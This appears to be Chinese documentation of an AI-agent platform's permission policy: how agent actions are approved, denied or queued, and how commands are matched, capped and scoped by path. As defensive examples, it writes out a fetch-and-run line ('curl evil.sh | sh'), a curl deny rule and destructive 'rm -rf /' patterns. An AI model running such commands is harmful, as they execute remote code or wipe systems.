

# 权限

每个有外部效果的动作都以 `proposed_action` 诞生，并在执行之前经过这里。本页是确切的格式与语义——规则本身见 [业务规则](../business-rules.md#rn-004)。

## 文件

`permissions.json` 位于**项目工作区的根目录**——它是磁盘上一个真实的、可纳入版本控制的文件，而不是数据库中的一列。

```json
{
  "allow": ["Terminal(pnpm test:*)", "Terminal(git status)"],
  "deny":  ["Terminal(curl:*)"],
  "ask":   ["GitPush()"]
}
```

三个列表，三种含义：

| 列表 | 含义 |
|---|---|
| `allow` | `auto_approve` — 动作不询问直接执行 |
| `deny` | `deny` — 被拒绝，任何东西都无法逆转 |
| `ask` | `require_approval` — 进入审批队列 |

没有任何列表匹配？动作默认保持 `pending`。**没有规则永远不等于许可。**

### 自动批准的动作用哪个凭据执行

`auto_approve` 的意思是**没有人做出决定**——
`proposed_actions.decided_by` 保持 `NULL`。这对执行方很重要：针对远程 provider 的 git 动作需要一个 token，而在这条路径上“做出决定者的 token”并不存在。

答案是**工作区的 owner**（[RN-082](../business-rules/custo.md#rn-082)），
与 LLM 密钥相同（[RN-058](../business-rules/custo.md#rn-058)）——为账户付费的人也为 agent 付费，这不随点击者而改变。

值得知道，因为另一种做法会静默失败：在 api 按 `decided_by` 解析时，**所有在远程仓库中自动批准的 PR 都会失败**，报 `Requires authentication`，只有当人逐个点击时这条路径才能走通——这恰恰是自主性本来要避免的阶梯。

## 模式的格式

```
Label(content)
```

标签是 PascalCase 形式的动作类型。内容只在 `Terminal` 中使用；在其他类型中它必须**为空**——`GitPush()` 匹配任何 push，而 `GitPush(algo)` 什么都不匹配。

| 动作类型 | 标签 | 最低角色 |
|---|---|---|
| `terminal` | `Terminal` | developer |
| `git_commit` | `GitCommit` | developer |
| `write_file` | `WriteFile` | developer |
| `git_push` | `GitPush` | maintainer |
| `pr_open` | `PrOpen` | maintainer |
| `git_repo_create` | `GitRepoCreate` | maintainer |
| `git_branch_create` | `GitBranchCreate` | maintainer |
| `git_branch_protect` | `GitBranchProtect` | maintainer |
| `open_adr_pr` | `OpenAdrPr` | maintainer |
| `open_infra_pr` | `OpenInfraPr` | maintainer |
| `git_merge` | `GitMerge` | maintainer |
| `instruction_patch` | `InstructionPatch` | maintainer |
| `parallelize` | `Parallelize` | maintainer |
| `raise_max_parallel` | `RaiseMaxParallel` | maintainer |
| `propose_execution_plan` | `ProposeExecutionPlan` | maintainer |
| `assess_implementability` | `AssessImplementability` | maintainer |
| `container_start` | `ContainerStart` | maintainer |
| `container_stop` | `ContainerStop` | maintainer |
| `container_remove` | `ContainerRemove` | maintainer |
| `spend` | `Spend` | **owner** |

最低角色在文件**之前**检查。达不到则 `deny`——
`permissions.json` 不会授予 IAM 拒绝的东西

`parallelize`（Fase 14d）是唯一一个效果不是触及代码或仓库的：它请求更多**agent**。它是 `maintainer`，理由与
`spend` 相同——授权成本的人是对项目负责的人。它只存在于 lead 的上限之上；在上限之内没有动作，因为没有什么需要决定
（[RN-083](../business-rules/custo.md#rn-083)）
（[RN-005](../business-rules.md#rn-005)）。

`propose_execution_plan`（ADR 0086，[RN-284](../business-rules.md#rn-284)）
是 Dev Lead 的计划——每个模块多少个 agent 以及为什么，在任何一个启动之前。与 `parallelize` 同一量级：关于产品将在并行上花费**多少**的决定，只不过是在开始时而不是在超出上限时。与 `parallelize`/`raise_max_parallel` 不同，它**不**在绝对上限块中——可以配置为 `auto_approve`，
与 `open_adr_pr`/`open_infra_pr` 一样——而在它处于 `pending` 期间，Dev
Lead 的轮次被**挂起**等待决定，而不只是对话停住。

`assess_implementability`（ADR 0090，[RN-340](../business-rules.md#rn-340)）
是对一个故事可实现性的评估（gate `implementavel`，
`docs/gates.yml`）——与 `propose_execution_plan` **同一**量级、**同一**理由：会话的初始决定，而非超出上限，因此同样不在绝对上限块中。它在 `pending` 期间以同样方式挂起 Dev Lead 的轮次。

`container_stop` 和 `container_remove`（ADR 0136，
[RN-495](../business-rules.md#rn-495)）是全局容器页面
（`/containers`）在有人点击项目行上的“停止”或“移除”时提出的两个动作——总是人，从不是 agent。两者都是
`maintainer`，与 `container_start` 一样：由对项目基础设施负责的人决定。`container_stop` 沿用 `container_start` 的校准——**可以**配置为 `auto_approve`——除了预置：`container_stop` 从不被预置，而 `container_start` 在 Infra agent 的 handoff 被接受时为它预置为 `auto_approve`（ADR 0190，
[RN-671](../business-rules.md#rn-671)）。正是这个预置让 Infra Lead 的**服务器**在该接受时提出的启动无需第二次点击即可运行；
最低 `maintainer`、按模式/状态的拒绝以及无 broker 时的 409 仍在它之前生效。
`container_remove` 不行：它丢弃容器并强制完全重新配置，位于下方的绝对上限块中，与有外部效果的 git/特权命令同等对待。

**三者都不关心容器在哪里启动。** `decide()` 和上面所有规则都忽略 `executionMode`——分支只存在于批准之后的**执行**中（`ExecuteContainerStartUseCase`/
`ExecuteContainerStopUseCase`/`ExecuteContainerRemoveUseCase`）：`container` 项目被批准的动作仍然发往 broker
（`ContainerBrokerPort`，无变化）；`mounted`/`runner` 项目的则改为发往连接到该项目的 **RUNNER**，经由它已维持的 Phoenix 通道（[RN-497](../business-rules.md#rn-497)，
[ADR 0137](../adr/0137-o-runner-sobe-o-container-do-projeto.md)）。“没有连接的 runner”和“runner 尝试了并拒绝”是两种常见的 `failed` 结果，与 broker 拒绝同一纪律——绝不是未处理的异常。

**`container_start` 的执行中还会发生一件事，且只在 `mounted` 中**（[RN-501](../business-rules.md#rn-501)，
[ADR 0142](../adr/0142-validacao-de-workspace-montado-adiada.md)）：项目文件夹在那里被**实体化**。创建 `mounted` 项目不再要求文件夹存在——创建只校验路径格式以及
`BRABO_PROJECTS_BASE`——因为产品负责人的要求是 bind-mount 在架构师的决定**之后**创建，而 `container_start` 是第一个符合条件的时刻。于是执行器对文件夹执行 `mkdir -p`，证明它在 api 内部可写，并盖上 `workspace_verified_at`，全部在任何生命周期转换**之前**。api 无法创建或访问的文件夹是一个**有名字的** `failed`——点名变量、路径、可能原因（主机上文件夹的所有者；镜像以 non-root 运行，ADR 0024）和下一步——而生命周期那一行**不会**被标记为 `provisioning`：先标记再发现无法写入，会让 `project_containers` 断言一个从未存在的状态。这些都不触及 `decide()`、上限或谁能批准。

**而 `container_start` 也在那里解析自己的资源**
（[RN-683](../business-rules.md#rn-683)，
[ADR 0199](../adr/0199-recurso-minimo-derivado-do-module-map.md)）：提案**省略**的字段——在 handoff 接受时服务器启动的情况下是全部字段——变成从现行 `module_map` 派生的**最小值**（每个模块声明的总和，在仍有模块什么都没声明时以今天的默认值为下限）；**低于**该最小值的字段是一个有名字的 `failed`，在任何镜像决定或生命周期转换之前写入；高于它，则适用一贯的上限。与文件夹的实体化一样，这是执行，不是策略：
`decide()` 和谁能批准都不变。

## 模式如何匹配命令

不是按子串。命令按 shell 规则分词，模式按**词元前缀**匹配：

| 模式 | 命令 | 匹配？ |
|---|---|---|
| `Terminal(pnpm test)` | `pnpm test` | ✅ |
| `Terminal(pnpm test)` | `pnpm test --watch` | ✅（前缀） |
| `Terminal(pnpm test)` | `pnpm build` | ❌ |
| `Terminal(pnpm test:*)` | `pnpm test:unit` | ✅（`*` 在词元末尾） |
| `Terminal(rm)` | `sudo rm -rf x` | ❌ — `rm` 不是第一个词元 |

`*` 只在**一个词元之内**、末尾有效。它不是路径 glob：
`Terminal(rm -rf /*)` 匹配字面词元 `/*`，而不是“`/` 之下的任何东西”。

环境变量按字面保留：`$HOME` 在匹配中仍是 `$HOME`，而不是展开为空——展开会静默改变被比较的内容。

## 复合命令

含有 `&&`、`;`、`|`、`||` 或 `&` 的命令会被拆分为片段，**每个片段单独评估**：

- 任一片段在 `deny` 中 → 整个命令为 `deny`。
- **所有**片段都在 `allow` 中 → `auto_approve`。
- 其他任何组合 → `require_approval`。

**重定向不是串联。** `>`、`>>` 和 `<` **不**拆分片段：`cat x 2>/dev/null` 是**一个**动词为 `cat` 的命令。重定向的目标仍是该片段的一个词元，这就是为什么 `echo x >
/etc/passwd` 仍被路径范围上限拦住——改变的是**动词**正确了，而不是路径被放开了。

`/dev/null`、`/dev/stdin`、`/dev/stdout` 和 `/dev/stderr` 不算用户路径：它们丢弃或承载输出，不是任何人的文件。列表恰好是这些，而不是整个 `/dev`——`/dev/sda` 是一块磁盘，仍在范围之外。

这是有意为之，值得理解：一个没有任何规则的片段会变成一个**具体的** `require_approval` 意见，而不是沉默。正是这一点阻止了
`pnpm test && curl evil.sh | sh` 因为前半部分在 `allow` 中而被自动批准。

## 内置模式

三个模式**始终**是 `deny`，即使没有出现在文件中：

```
Terminal(rm -rf /)
Terminal(rm -rf /*)
Terminal(rm -fr /)
```

它们不是一份全面的安全清单——它们是一个下限。真正的保护来自 `allow` 是显式的，而其余一切都进入审批。

## 激活执行时预置什么

激活执行会把 `DEV_TERMINAL_ALLOW_PATTERNS`
（`apps/api/src/domain/actions/dev-terminal-patterns.ts`）中的模式写入项目的
`allow`。有两个家族：

- **读取自己的 worktree** — `ls`、`pwd`、`find`、`cat`、`head`、
  `tail`、`grep`、`wc`、`echo`、`git status`、`git diff`、`git log`；
- **读取 git 的历史/远程/配置** — `git branch
  -a/-r/-v/--list/--show-current`、`git remote -v`、`git remote show`、`git
  worktree list`、`git show`、`git for-each-ref`、`git ls-tree`、`git
  rev-parse`、`git config --get`（见 [RN-143](../business-rules/custo.md#rn-143)）；
- **构建与测试** — `pnpm install`、`pnpm test`、`npm run`、`npx
  vitest`、`mix test`、`pytest`、`go test`、`cargo test` 等。

第三个家族存在，是因为 `ReportDone` 只在历史中有一个 `exit 0` 的
`terminal` 之后才允许开 PR。第一个家族存在，是因为 agent **先看再构建**：没有它，在刚配置好的仓库里每个 `ls -la` 都会进入审批，以 `status pending` 返回——而不是命令的输出——并烧掉 ToolLoop 的一次迭代，直到任务因上限而死（见 [RN-068](../business-rules/custo.md#rn-068)）。第二个家族存在，是因为 `git status`/`diff`/`log` 足以查看 worktree，却不足以让 agent 在一个刚被采用的仓库的历史和远程中找到方向——一次真实会话在 `git branch -a` 或 `git worktree list` 这类子命令上花了几十次手动审批，它们不在 `allow` 中，并把它们出现的每个复合命令都推向手动审批。

这**不会**放松上面描述的任何东西。依然成立：`deny` 胜过 `allow`，内置模式仍然有效，匹配按**词元**前缀（允许 `ls` 不等于允许 `lsof`），复合命令要求**每个**片段都匹配——所以 `ls && rm -rf /` 不会因为 `ls` 而通过。

第二个家族需要额外小心，因为前缀匹配允许匹配前缀之后的**任何**东西：一个裸的 `Terminal(git
branch)` 模式除了简单列出之外，还会同时匹配 `git branch -D nome`（删除）和 `git branch
nome-nova`（创建），因为它看不到后面跟着什么。因此 `branch`、`remote`、`worktree` 和 `config`——四个拥有会**变更**的兄弟命令的——只以能让读取无歧义的 flag 作为**锚点**加入（`-a`/`-v`/`show`/`list`/`--get`），绝不以裸动词加入；
`git branch -D/-d/-m/-M`、`git remote add/remove/set-url`、
`git worktree add/remove/prune` 和 `git config <chave> <valor>`（无 `--get`）仍需审批。`show`、`log`、`for-each-ref`、`ls-tree` 和
`rev-parse` 不需要锚点：它们的任何后续都不会变更仓库。

通过 `agent_autonomy` 自动批准 `terminal` 是另一回事，也不是这里的做法：它会放行 engine 容器内的**任何**命令，中间没有文件。

## 决策的完整顺序



**节点 `Z` 改变了位置**（[RN-418](../business-rules.md#rn-418)，修订
[RN-106](../business-rules/autenticacao.md#rn-106)）：在本地 runner 到来之前，它紧跟在 IAM 之后并返回 `deny`——现在它是一个**上限**，与其他三个位于同一个最终块中，在
`agent_autonomy` 和 `permissions.json` 已经给出意见之后应用。原因见下方
[“外部效果与特权命令的边界”](#a-fronteira-de-efeito-externo-e-comando-privilegiado-rn-418)
一节。

### “自动模式”：`agent_autonomy` 的通配符（[RN-153](../business-rules/autenticacao.md#rn-153)）

上图中的 `agent_autonomy 有意见？` 节点不知道、也无需知道意见来自**具体**规则（`actionType: "terminal"`）还是通配符 `actionType: "*"`——“自动模式”：该 agent **任何**动作类型的自主权，通过在
`ApprovalCard` 上点击“自动模式”一键开启。解析发生在本图开始**之前**，只在一个仓储中：`DrizzleAgentAutonomyRepository.findMode` 在同一查询中查找具体规则和通配符，两者都存在时返回具体规则——在 `"*": auto_approve` 开启时写入 `terminal: deny`，仍会对该 agent 拒绝 `terminal`，同时放行其余。

因此图中没有新增节点，而下面的上限对“自动模式”生效，是因为它们响应的是 `current.policy === 'auto_approve'`，而从不看其来源（[RN-154](../business-rules/autenticacao.md#rn-154)）。

**有一个由产品负责人决定的例外：自动模式放开路径范围**（[RN-603](../business-rules/autenticacao.md#rn-603)，
[ADR 0167](../adr/0167-modo-automatico-libera-o-escopo-de-caminho.md)）。仓储还会返回自主权**来自何处**
（`AgentAutonomyRepository.resolve`：`especifica` 或 `curinga`），`decide()` 以 `ctx.autonomyOrigin` 接收它。当通配符解析为
`auto_approve` 时，两种审批请求消失：[路径范围上限](#path-scope)，以及复合命令为没有任何规则的片段合成的 `require_approval`。于是处于自动模式的 agent 可以运行任何终端命令，即使在项目文件夹之外——在
`exp001` 中测得，开启自动模式后 51 个请求中有 47 个只来自范围，因为 dev agent 在容器内（`/work`）运行，而范围与**主机**的根比较。其余一切保留：`deny` 胜出，文件中写的 `ask` 会询问，外部效果/特权上限（push、PR、deploy、
`sudo`/`doas`）先运行并忽略来源，而合并到受保护 branch、
`instruction_patch`、并行和 `container_remove` 从不自动批准。一条**具体**规则（`terminal: auto_approve` 或 `terminal: require_approval`）不是自动模式，保留范围上限。

当人批准的 `git_merge` **执行**且 provider 报告 PR 为
`merged` 时，PR 所来自的任务变为 `done`——仅一次：同一 PR 的重复合并不会再次移动它，也不会写入第二个
`backlog.task_status_changed` 事件（[RN-628](../business-rules.md#rn-628)）。合并本身从不自动化（[RN-418](../business-rules.md#rn-418)）。

当同一 PR 已被之前的一次执行合并（409 `pr_ja_mergeado`），或已有一个存活的提案——待处理、已批准或已自动批准（409 `merge_ja_proposto`）——时，`git_merge` 在创建之前即被**拒绝**；被拒绝或失败的提案不妨碍重试。批准一个其 PR 已被另一个提案合并的待处理合并同样是 409 `pr_ja_mergeado`，动作保持 `pending`。仍待处理的 QA/SecOps gate **不是**拒绝：PR 标签页和聊天只**提示**，点名该 gate，按钮保持可用
（[RN-663](../business-rules.md#rn-663)）。

“自动模式”需要 `maintainer`——与通配符出现之前就保护
`PUT .../agent-autonomy` 的角色相同。关闭它复用 agent 卡片在概览/执行者中已有的手动/自动开关：写入通配符后，开关改为编辑**它**而不是一贯的代表类型，其中的“手动”就是同一个通配符被重写为 `require_approval`。

### 容器下限（[RN-492](../business-rules.md#rn-492)/[RN-493](../business-rules.md#rn-493)，[ADR 0134](../adr/0134-dev-agents-executam-dentro-do-container.md)）

上图中的节点 `C0` 是新的：当动作是 `terminal` **且**项目在 `project_containers` 中有一个**登记**为 `running` 的容器
（`execution_mode: container`——由 `ProposeActionUseCase` 检查，它已经读取执行侧读取的同一个容器生命周期）时，**基础**值不再是 `require_approval`，而以 `auto_approve` 开始。

这是一个下限，不是新的上限，区别很重要：后续每一步
（`agent_autonomy`、`permissions.json`）在有显式意见时本就会**替换**基础值——正是同一机制让 `deny` 规则或 `ask` 模式覆盖今天的默认 `require_approval`。从
`auto_approve` 而不是 `require_approval` 出发不改变这一属性：显式的
`deny` 或匹配的 `ask` 模式依旧胜过下限，正如它们胜过默认值。下面四个上限（`S`、`Z`、`H` 和复合命令规则）仍无条件地叠加在上面，无论 `auto_approve` 来自下限还是来自显式规则——在运行中的容器内 `git push` 依旧是 `require_approval`，一如既往。

**为什么这是安全的：多了第二道更强的边界，而不是少了一道。** 在容器之外，下面的**词法**路径范围
（`comandoNoEscopo` 对照 `projectScopeRoot`，一个**主机**路径）是使通过 `permissions.json allow` 自动批准变得安全的东西。在真实容器内，命令物理上看不到 `/work` 之外的任何东西——Docker 的 mount namespace——而且 broker 在运行任何东西之前独立地重新验证 `cwd` 位于 `/work` 之内（`DiretorioForaDoEscopoError`）。**词法路径范围继续在下限之上运行，没有变化**：到达 `decide()` 的
`cwd`/`command` 从不被转换为 `/work`（该转换稍后在 engine 一侧、就在调用 broker 之前发生），因此一个今天会被标记为超出范围的命令，在下限开启时依旧被标记为超出范围——这是冗余的纵深防御，而不是替代。

## 外部效果与特权命令的边界（RN-418） {#a-fronteira-de-efeito-externo-e-comando-privilegiado-rn-418}

**[ADR 0102](../adr/0102-revisao-do-adr-0065-teto-absoluto-substitui-deny.md)
对 [ADR 0065](../adr/0065-container-por-projeto-a-fronteira-deixa-de-ser-politica.md)
的修订**——产品负责人一个**全局**且明确的决定，在一条关于该变更的自动安全警告之后得到确认（完整历史在 ADR 中）。下文描述**当前**行为；之前的版本（无条件 `deny`，在任何放行步骤之前应用）是被替换，而不是被放松——原因见下文。

`terminal` 命令中的 `git push`、`git remote add`/`set-url`、`git merge`、provider 的 CLI
（`gh pr create`、`gh pr merge`、`glab mr create`/`merge`、release 和
workflow dispatch）、常见的部署命令（`kubectl apply`、`helm
upgrade`、`terraform apply`、`docker push`、`npm publish`……）以及现在的
`sudo`/`doas` 都是**绝对上限**（并且自
[RN-689](../business-rules.md#rn-689) 起，**有类型**的动作
`git_push` 和 `pr_open` 也是，此前通配符 `"*"`、具体规则或
`permissions.json` 会把它们提升为 `auto_approve`）——与其他三个上限位于同一个最终块（见下方[“上限”](#caps)），在
`agent_autonomy` 和 `permissions.json` 已给出意见之后应用：如果到那时的裁定是 `auto_approve`，它就变为无条件的 `require_approval`。无论是“自动模式”的通配符
`"*"` 还是 `permissions.json` 中的 `allow` 条目，都无法把它提升回去。

**为什么现在 `require_approval` 是安全的，而以前需要 `deny`。** `deny` 的历史原因很具体：“始终允许”会把模式写入
`allow`，一次点击就足以永久重新打开这扇门。这个漏洞是在**源头**堵上的，而不是绕过：
`ApproveAlwaysActionUseCase`/`patternsForAction`
（`apps/api/src/application/use-cases/actions/approve-always-action.use-case.ts`）
**拒绝**为有 git 外部效果或特权命令的终端动作把模式写入 `allow`——用户仍通过正常流程批准具体实例，但在这两种情况下“始终允许”从不写入模式。没有这种拒绝，上限就只是装饰。

`sudo`/`doas` 在 `external-effect.ts` 中获得了自己的类别
（`comandoPrivilegiadoNoComando`），在任何片段中按**动词**匹配——与 git 的 `efeitoExternoNoComando` 同一原则，后者仍按**词元前缀**匹配，忽略中间的全局 flag（`git -C /tmp push` 匹配
`git push`）。复合命令的每个片段都会被检查：`pnpm
test && git push origin main` 被第二个片段拦下，正如复合命令本就要求每个片段都匹配才能成为 `auto_approve`。

上限并不剥夺 agent 的能力：对于 git，错误消息仍会指出应使用哪个**有类型**的动作——`git_push`、`git_merge` 或 `pr_open`——它以 `proposed_action` 诞生，走正常流水线，并在事件日志中记录发送了什么、发往何处（这是 dev agent 今天已经使用的路径，`agent_io.ex`）。`sudo`/`doas` 没有对应的有类型动作——消息只解释为什么该命令需要人工决定。

**现在这一点最重要的地方**：
[本地 runner](../adr/0103-runner-local-execucao-na-maquina-do-usuario.md)
以用户的权限在用户自己的机器上执行**已经**批准的命令——这正是合法的 `sudo`（或试图借 `sudo` 逃逸）需要一个由构造而非 `permissions.json` 惯例保证的人工停顿的场景。

**`container_remove`（ADR 0136，[RN-495](../business-rules.md#rn-495)）
也进入同样的“始终允许”拒绝**，其机制比上面的更简单：它不是按词元匹配的 `terminal` 命令，而是一个独立的
`actionType`，所以 `ApproveAlwaysActionUseCase` 对该类型直接拒绝这次点击——不写入任何模式，用户通过正常流程批准具体实例。`container_start` 和 `container_stop` **不**会这样被拒绝：它们可以配置为 `auto_approve`，与
`open_adr_pr`/`open_infra_pr` 同一量级——`container_stop` 从不被预置，而
`container_start` 自 ADR 0190 起在 Infra agent 的 handoff 被接受时为其预置。

**“始终允许”一次点击的顺序（[RN-642](../business-rules.md#rn-642)）。**
批准与模式在**同一**事务中写入：模式（写入 `allow`，或对于模块 dev agent 写入 `agent_autonomy`）及其 `permission.granted` 事件只有在离开
`pending` 的转换有效之后才写入，而模式写入失败会撤销批准。
`permissions.json` 是文件，不进入事务——剩余窗口是文件写入后提交失败，这一点已声明。点击一个已因**批准**离开 `pending` 的动作（双击，同一个待处理动作显示在两个面板中）是幂等成功，
`desfecho: "ja_aprovada"`，只在模式缺失时写入；点击一个**已拒绝**的动作仍是 `409`，带 `reason: "acao_ja_recusada"`，不写入任何东西。上面的上限在这一切之前检查，即使对已批准的动作也是如此。

**上限的**有类型**一半（AT-320）。** 直到 30/09，只有键入的命令
`git push` 被拒绝；有类型的 `git_push` 动作会通过，并把
`GitPush()` 写入 `allow`。“始终允许”现在按类型拒绝唯一的列表
`TIPOS_SEM_SEMPRE_PERMITIR`
（`apps/api/src/domain/actions/sempre-permitir.ts`）：`git_push`、`pr_open`、
`git_merge`、`container_remove`、`instruction_patch`、`parallelize` 和
`raise_max_parallel`——`400`，带 `reason: "teto_do_sempre_permitir"`。审批卡片对同一列表隐藏按钮（一个由测试对照此列表核对的副本）。它加入时**并未**改变 `decide()`，也未改变激活执行时预置的内容；自 [RN-689](../business-rules.md#rn-689) 起两者都变了：`git_push` 和 `pr_open` 在 `decide()` 中处于 RN-418 的上限之内
（见[“上限”](#caps)），而激活执行只为每个 `dev-<modulo>` 预置 `git_commit` 为
`auto_approve`。

**写入模式的单位：动词 + 子命令，每个片段一个
（[RN-675](../business-rules.md#rn-675)，负责人 01/10 的决定）。** “始终允许”不再逐字节写入整个命令：命令的每个片段（按 `&&`、`||`、`;`、`|`、`&` 拆分，与 `decide()` 的拆分方式一致）变成一个模式——当第二个词元是单词时为动词加子命令
（`npm test`、`git status`、`mix test`、`npx vitest`），当它是一个非单词参数时只有动词（`cat src/x.ts` → `Terminal(cat)`，
`cd ../lib` → `Terminal(cd)`），当第二个词元是 flag（`ls -la src`）或该单位会成为 RN-418 某个上限的前缀时则为**精确**片段
（`git remote -v`、`gh pr list` 保持精确）。即使精确也是上限前缀的片段（单独的 `git`）不写入任何东西。`cd src/app && npm test` 写入
`Terminal(cd)` 和 `Terminal(npm test)`，下一个
`cd lib/core && npm test -- --coverage` 无需询问即可运行。匹配仍按词元前缀，上限仍在 `decide()` 中于文件之后运行，路径范围在自动模式之外仍然有效。模块 dev agent 的点击仍写入 `agent_autonomy`，而不是模式（[RN-509](../business-rules.md#rn-509)）。

## 路径范围 {#path-scope}

`terminal` 命令还会按**它触及何处**来评估，而不只是按动词（[ADR 0055](../adr/0055-escopo-de-caminho-na-politica-de-terminal.md)，
[RN-075](../business-rules/custo.md#rn-075)）。项目文件夹——
`<PROJECT_WORKSPACES_ROOT>/<workspace_dir_name>`，`permissions.json` 和所有 agent 的 worktree 都在其中——就是**范围**。
`workspace_dir_name`
（[ADR 0066](../adr/0066-nome-de-pasta-legivel-do-workspace.md)，
[RN-109](../business-rules/autenticacao.md#rn-109)）是在项目创建时冻结的文件夹名——新项目中可读（`<slug>-<id 的 8 个字符>`），这次变更之前的项目中是纯 UUID。

**`local` 模式的项目有不同的范围，这一差异在这里很重要**（[ADR 0072](../adr/0072-projeto-local-ou-container.md)，
[RN-169](../business-rules/autenticacao.md#rn-169)/[RN-170](../business-rules/autenticacao.md#rn-170)）：
根变为**用户在创建时键入的绝对路径**，而不是
`join(PROJECT_WORKSPACES_ROOT, workspace_dir_name)`。

本节描述的一切依然有效——范围收紧和放松的方式完全相同，`deny` 依旧最先胜出。改变的是它**包含**什么。而后果在 ADR 0072 中被毫不淡化地声明：`join` 的**结构性**约束——“无论这一列发生什么，结果都不会离开受管根”——对这些项目不复存在。取而代之的是创建时的校验（RN-170：绝对路径、无 `..`、存在、可写、绝不是系统根、绝不与 Brabo 的 checkout 重叠），以及在每次派生根时对同一谓词的**词法**再校验——使数据库中被直接篡改的一行不会变成 `/` 上的终端范围。

路径比较是**词法的，且不对输入使用正则**：去掉末尾斜杠是一次 O(n) 扫描，而不是 `.replace(/\/+$/, '')`。旧模式被 CodeQL 标记为多项式 ReDoS（HIGH）——它迫使引擎尝试每个起始位置，在大量斜杠时退化为 O(n²)。这里的输入来自 agent 的命令，因此不是使用带回溯正则的地方。

范围做两件相反的事，重要的是二者的组合：

**收紧。** 触及外部路径的命令永远不会被自动批准，无论动词是否在 `allow` 中。没有这一点，一个被允许的 `Terminal(cat)` 会自动执行 `cat
/workspace/apps/engine/lib/engine/actions/git_executor.ex`——运行 agent 的平台代码——并触及其他项目的 worktree。

**放松。** 在范围之内，`cd` 不再是需要许可的动词：它本身就是范围的声明。没有这一点，总是发出 `cd <caminho> && <verbo>` 的 dev agent 会撞上复合命令规则——每个片段都需要匹配——于是**每个**命令都会停下等待审批，无论动词是否被允许。

值得理解的四个限制：

- **范围允许，而不豁免。** 位于项目文件夹中并不会让
  `curl … | sh` 变得安全：不在 `allow` 中的动词仍需审批。
- **范围之外是 `require_approval`，不是 `deny`。** agent 可能有查看外部的正当理由；决定者仍然是你。
- **自动模式跳过这一上限。** 带有通配符
  `"*": auto_approve` 的 agent 会不经询问地运行范围外的命令
  （[RN-603](../business-rules/autenticacao.md#rn-603)）；把 agent 卡片切回“手动”即可恢复。
- **规范化是词法的，不是 `realpath`。** `<raiz>/../..` 会被解析并拒绝；项目内指向外部的符号链接**不会**被检测到。范围是策略，不是隔离。

检查哪些词元：**绝对**的（以 `/` 开头）以及包含 `..` 的。不含 `..` 的相对路径解析在已检查过的 `cwd` 之下——而把 `-maxdepth`、`4` 或 `*.ex` 当作路径会拒绝合法命令，却不带来任何安全收益。

由此得出两个属性：

**`deny` 立即胜出。** 无论出现在哪一步，它都会立即返回。没有任何配置能逆转 `deny`。

**沉默的步骤从不降级。** 如果 `agent_autonomy` 说 `auto_approve` 而
`permissions.json` 对该动作没有规则，结果仍是
`auto_approve`——文件不会因省略而“投反对票”。每一步只能提高前一步的放行程度。

## 上限 {#caps}

**最后**应用，在其余一切之后：

| 上限 | 效果 | 原因 |
|---|---|---|
| 目标为 `dev`、`qa`、`rc` 或 `main` 的 `git_merge` | `auto_approve` → `require_approval` | 合并到受保护 branch 始终是你的决定（[RN-006](../business-rules.md#rn-006)） |
| `instruction_patch` | `auto_approve` → `require_approval` | 在一个 agent 改变另一个 agent 的行为之前，你需要看到 diff（[RN-007](../business-rules.md#rn-007)） |
| `parallelize` 和 `raise_max_parallel` | `auto_approve` → `require_approval` | 在更多 agent 上花钱是你的决定；没有这一上限，lead 的限制就是装饰，而提高自己的上限就是产品在提高自己的支出限额（[RN-086](../business-rules/custo.md#rn-086)） |
| 带有外部效果 git（push/PR/deploy）或 `sudo`/`doas` 的 `terminal` | `auto_approve` → `require_approval` | 有外部效果的 git 和特权命令永远不可自动批准，即使开启了“自动模式”（[RN-418](../business-rules.md#rn-418)，修订 [RN-106](../business-rules/autenticacao.md#rn-106)）——见上方专门一节 |
| 有类型的 `git_push` 和 `pr_open` | `auto_approve` → `require_approval` | 经由有类型入口的同一个 RN-418 上限：无论是自动模式的通配符、`agent_autonomy` 的具体规则，还是 `permissions.json`，都不会提升它们（[RN-689](../business-rules.md#rn-689)）。`git_merge` 保留自己的上限（第一行）；`deploy` 不是 `proposed_action` 的类型 |
| `container_remove` | `auto_approve` → `require_approval` | 丢弃容器会强制完全重新配置——与合并到受保护 branch 同一量级，每次都要决定，绝不一次性配置（[RN-495](../business-rules.md#rn-495)） |

上限把 `auto_approve` 降为 `require_approval`；它**不会**把
`deny` 变成别的东西，因为 `deny` 早已提前返回。

:::note 为什么 `rc` 仍在列表中

`rc` 这一级已从 branch 策略中移除
（[ADR 0030](../adr/0030-politica-de-branches-mecanizada.md)），bootstrap
也不再创建它（[RN-029](../business-rules.md#rn-029)）——但它仍在这里，在 `domain/actions/protected-branches.ts` 中。

这个列表决定合并锁**拒绝**什么，而由早期版本 Brabo bootstrap 的仓库仍有这个 branch。从这里移除它不会从任何人的仓库中移除任何东西：只会让以 `rc` 为目标的
`git_merge` 变得可自动批准，而这个 branch 可能正被某人用作生产。

保护一个不存在的 branch 没有成本。取消保护一个存在的 branch 代价高昂——这种不对称是有意的。

:::

上限与默认值的区别：默认值是没有人配置任何东西时发生的事；上限是**无论**配置了什么都会发生的事。

## 决定未到时 agent 发生什么

`pending` 动作不只是一行在等待点击：另一端有一个停住的 agent。

当它调用的工具处于待处理时，它的循环**挂起**，保留任务、worktree 和对话历史，并进入
`awaiting_approval`。你的决定发出 `task.action_settled`，将它唤醒：命令的真实结果占据回答本应所在的位置，循环从停下处继续。

**拒绝也是回答。** 原因占据结果的位置，agent 得知那条路已关闭，而不是永远等待——拒绝不会让它卡住。

这对运维者很重要：迟些批准不会浪费已完成的工作，审批队列也不是为了方便才异步——它就是 agent 字面上在等待的东西。在此之前，`pending` 会被当作命令的回答返回，agent 会烧掉迭代上限去尝试别的东西，直到任务在一行未写的情况下死去
（[RN-073](../business-rules/custo.md#rn-073)）。

